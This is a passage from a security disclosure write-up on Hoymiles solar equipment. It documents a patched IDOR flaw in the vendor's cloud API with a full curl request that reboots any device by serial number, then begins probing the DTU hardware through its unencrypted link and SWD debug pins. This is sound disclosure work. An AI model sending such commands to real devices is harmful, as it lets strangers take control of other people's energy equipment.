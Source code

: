 ### Send any command to any device connected (Insecure Direct Object Reference) **(PATCHED)**

In the web-based cloud access it was possible to send some commands the the devices (e.g. switch on, switch off, restart, update...). Only the serial number of the targeted device was needed on top of a valid token. However, the token did not need to belong to the power plant related account, any valid token from a DIY account worked (IDOR vulnerability). Here is an example of a **DTU_REBOOT** command:

Request:
```sh
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H 'content-type: application/json' -X POST -H 'Authorization: [Token here]' -d '{"action": 1,"dev_sn": "4111XXXXXXXX","dev_type": 3,"dtu_sn": "4111XXXXXXXX"}'
```
Answer:
```json
{"status":"0","message":"success","data":"xxxxxxx"}
```

Let's have a look at the embedded part now.

## The DTU

The DTU is connected to the cloud via the home router. It has to be configured locally first via its access point. 

First, the DTU does not use TLS to communicate with the cloud (so no need for mitmproxy).

Second, I opened the DTU and tried to attach a [JLINK debug probe](https://www.segger.com/products/debug-probes/j-link/) to its SWD debugging interface (friendly enough, the SWD pins are tagged).
Here are some pictures:

![DTU setup](pictures/dtusetup.JPG)